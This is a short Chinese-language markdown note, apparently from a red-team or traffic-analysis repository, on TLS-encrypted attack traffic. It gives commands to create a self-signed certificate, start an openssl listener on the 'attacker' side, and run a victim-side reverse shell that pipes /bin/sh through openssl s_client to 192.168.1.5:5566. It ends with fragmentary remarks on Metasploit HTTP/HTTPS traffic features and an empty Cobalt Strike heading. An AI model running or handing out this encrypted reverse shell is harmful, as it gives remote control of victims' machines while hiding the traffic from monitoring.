


# 证书加密流量


```
生成证书
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
攻击端监听（端口5566）
openssl s_server -quiet -key key.pem -cert cert.pem -port 5566

受害端反向Shell
mkfifo /tmp/s; 
/bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.1.5:5566 > /tmp/s
```

# msf对比http,https

http:
弱特征

请求头参数数量固定

# CS
